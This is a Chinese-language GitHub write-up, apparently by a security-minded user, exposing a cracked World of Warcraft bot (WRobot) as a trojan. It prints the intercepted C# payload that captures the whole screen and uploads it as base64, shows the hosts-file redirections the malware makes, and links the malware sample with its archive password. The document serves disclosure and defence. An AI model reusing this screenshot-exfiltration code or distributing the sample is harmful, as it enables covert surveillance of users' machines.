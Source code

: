 # Wrobot 木马

前不久获得一份WRobot的破解版程序，该程序用于魔兽世界脚本Bot。在测试环境中发现一些不寻常的地方，多次与破解程序发布者联系无果后我将所掌握的内容发布在此。

通过搜索引擎发现此破解程序的作者多年来在很多与魔兽世界相关的 中/英 论坛上发布过此破解程序的推广信息。

`木马传播涉事QQ号 8171974 287228864 401979123  QQ群 6456089 传播时间 2017-2023`

<details>
<summary><code><strong>「点击查看」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/1.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/2.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/3.PNG?raw=true" width=30%  />
</details>

<details>
<summary><code><strong>「点击查看下载地址」</strong></code></summary>

破解版WRobot验证端  解压密码：1234567890 
**[Download](https://github.com/elseif2023/Wrobot/blob/main/document/%E7%A0%B4%E8%A7%A3%E7%89%88WRobot%E9%AA%8C%E8%AF%81%E7%AB%AF.rar)**

查毒检测报告：https://www.virustotal.com/gui/file/7f5703e57194fded6e5588ad54be0b5896009e51c41c6eeaca738a8f77bcb2e7

</details>

当使用者使用 破解版WRobot验证端.exe 时会触发下列动作

1. 获取使用者的QQ和QQ群，如果未启动QQ会提示具有误导性的错误提示。当使用者关闭 破解版WRobot验证端.exe 然后登录QQ并再次启动 破解版WRobot验证端.exe 点击登录会获取使用者的QQ和QQ群，如果使用者在该程序发布者的QQ群内那么登录成功。否则则提示之前的误导性错误提示。

2. 改并添加下列内容到计算机上的hosts文件内，将使用者解析目标网站上
```
#==== 下面两行是破解版WR转向服务器IP ====
43.252.229.37 tumadre.000webhostapp.com
127.0.0.1 download.wrobot.eu
```

通过访问 43.252.229.37 发现此IP地址属于破解程序发布者的广告网站，同时注册了名为 wrobot_free.kissdjmax.com 的域名 

<details>
<summary><code><strong>「点击查看网站截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/4.PNG?raw=true" width=100%  />
</details>

成功登录到 破解版WRobot验证端 后，启动魔兽世界并进入游戏在启动由破解程序发布者提供的 WRobotWOTLK/WRobot.exe 进行激活 在使用过程中通过截取数据获得了下列内容

<details>
<summary><code><strong>「点击查看截取信息」</strong></code></summary>
  
```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}

string fullScreenShotPath = System.IO.Path.GetTempPath() + System.Environment.MachineName;

System.Drawing.Bitmap screenshot = new System.Drawing.Bitmap(System.Windows.Forms.SystemInformation.VirtualScreen.Width,
 System.Windows.Forms.SystemInformation.VirtualScreen.Height,
 System.Drawing.Imaging.PixelFormat.Format32bppArgb);
System.Drawing.Graphics screenGraph = System.Drawing.Graphics.FromImage(screenshot);
screenGraph.CopyFromScreen(System.Windows.Forms.SystemInformation.VirtualScreen.X,
 System.Windows.Forms.SystemInformation.VirtualScreen.Y,
 0,
 0,
 System.Windows.Forms.SystemInformation.VirtualScreen.Size,
 System.Drawing.CopyPixelOperation.SourceCopy);

screenshot.Save(fullScreenShotPath + ".jpg", System.Drawing.Imaging.ImageFormat.Jpeg);

System.Drawing.Image myImage = GetImage(fullScreenShotPath + ".jpg");

string base64Image = ImageToBase64(myImage, System.Drawing.Imaging.ImageFormat.Jpeg);
string fileName = System.Environment.MachineName;

using(System.Net.WebClient client = new System.Net.WebClient()) {
 byte[] response = client.UploadValues("http://127.0.0.1/upload/validate.php", new System.Collections.Specialized.NameValueCollection() {
  {
   "myImageData",
   base64Image
  }, {
   "fileName",
   fileName
  }
 });
}

if (System.IO.File.Exists(@fullScreenShotPath + ".jpg"))
                {
                    System.IO.File.Delete(@fullScreenShotPath + ".jpg");
                }
    }

        System.Drawing.Image GetImage(string filePath) {
         System.Net.WebClient l_WebClient = new System.Net.WebClient();
         byte[] l_imageBytes = l_WebClient.DownloadData(filePath);
         System.IO.MemoryStream l_stream = new System.IO.MemoryStream(l_imageBytes);
         return System.Drawing.Image.FromStream(l_stream);
        }

        string ImageToBase64(System.Drawing.Image image, System.Drawing.Imaging.ImageFormat format) {
         using(System.IO.MemoryStream ms = new System.IO.MemoryStream()) {
          // Convert Image to byte[]
          image.Save(ms, format);
          byte[] imageBytes = ms.ToArray();

          // Convert byte[] to Base64 String
          string base64String = System.Convert.ToBase64String(imageBytes);
          return base64String;
         }

        }
}
```
</details>

### 修改

修改截取的内容后获得下面的代码，并将解析地址由 43.252.229.37 tumadre.000webhostapp.com 改为 127.0.0.1 tumadre.000webhostapp.com 在本地部署代码后 WRobot.exe 程序激活成功，并且功能正常。

<details>
<summary><code><strong>「点击查看修改后的代码」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}
    }
}
```
</details>

### 分析
检查过后发现 WRobotWOTLK\Bin\wManager.dll 应该被破解程序发布者做过手脚，在不本地部署代码只删除掉 wManager.dll 内几处代码后正常启动。

此破解程序是用于魔兽世界私人服务器，此类游登陆器大多会被杀毒软件提示病毒而让玩家关闭杀毒，破解程序通过设置多个障碍来在一个小范围内寻找合适的目标并以此获利。

应该是出于获利的目的 43.252.229.37 这个用于验证的IP并不是时刻都能使用(根本不需要，即便需要也不存在所谓流量过大)，从而诱导使用者付费。一旦 43.252.229.37 此验证IP无法验证，那么也无法截取到任何有效内容。

此软件涉及屏幕截图和通过Web请求发送图像数据，这绝不是正常软件会做的事。

### 结论
在火绒安全提交了样本后，由火绒安全人工认定此破解程序为木马，处理结果 `https://bbs.huorong.cn/forum.php?mod=viewthread&tid=122996`

```
病毒名称：Trojan/Agent.bbp
病毒ID：6D2ACBF71A377760
病毒路径：C:\Users\game\AppData\Local\Temp\Rar$DRb2668.5172\破解版WRobot验证端.exe
操作类型：修改 
操作结果：已处理
```
https://user-images.githubusercontent.com/127265295/225115946-6562ab47-a3ad-4b4f-a5bd-0c086a57b625.mp4


<details>
<summary><code><strong>「查看截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/Screenshot_2023-03-14_13-02-20.png?raw=true" width=30%  />
</details>
